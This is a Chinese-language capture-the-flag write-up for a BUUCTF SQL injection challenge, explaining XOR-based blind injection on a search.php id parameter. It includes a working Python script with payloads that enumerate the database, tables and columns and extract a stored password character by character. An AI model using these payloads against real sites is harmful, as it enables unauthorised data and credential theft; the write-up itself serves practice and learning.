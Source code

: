 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-31
---
```


## 思路

1. 打开网页观察页面内容如下，可以看到有一个登录框，还有一个1~5的列表可以点击。

   说明本题可以从两个角度进行sql注入。

   登录的链接为：check.php?username=123&password=123

   点击数字的链接为：search.php?id=1

<img src="images/image-20201231143221010.png" alt="image-20201231143221010" style="zoom: 25%;" />

2. 先从最常规的万能密码对登录框进行尝试

3. 对点击数字的链接进行尝试（而且题目中也提示了“选择正确神秘代码即可获得flag”）

   search.php?id=1^1^1和search.php?id=1结果一样，说明我们可以尝试使用**异或**进行注入，使用下面的脚本进行测试：

   > 当我们在尝试SQL注入时,发现union,and被完全过滤掉了,就可以考虑使用异或注入
   >
   > 异或运算规则：
   >
   > 1^1=0 0^0=0 0^1=1
   >
   > 1^1^1=1  1^1^0=0

   ```python
   # -*- coding: utf-8 -*-
   url = 'http://70f6bc6d-6862-4615-8b83-fb7267cc42fb.node3.buuoj.cn/search.php?id='
   i = 0
   flag = ''
   while True:
       i += 1
       # 从可打印字符开始
       begin = 32
       end = 126
       tmp = (begin + end) // 2
       while begin < end:
           print(begin, tmp, end)
           time.sleep(0.1)
           # 爆数据库
           # geek
           # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
           # 爆表
           # F1naI1y,Flaaaaag
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
           # 爆字段
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 要跑很久
           # payload = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 很快
           payload = "1^(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)^1" % (i, tmp)
           # 错误示例
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)^1" % (i, tmp)
   
           r = requests.get(url+payload)
           if 'Click' in r.text:
               begin = tmp + 1
               tmp = (begin + end) // 2
           else:
               end = tmp
               tmp = (begin + end) // 2
   
       flag += chr(tmp)
       print(flag)
       if begin == 32:
           break
   
   ```

   

## 总结

此题可以结合 [GYCTF2020Ezsqli]([GYCTF2020]Ezsqli.md) 练习

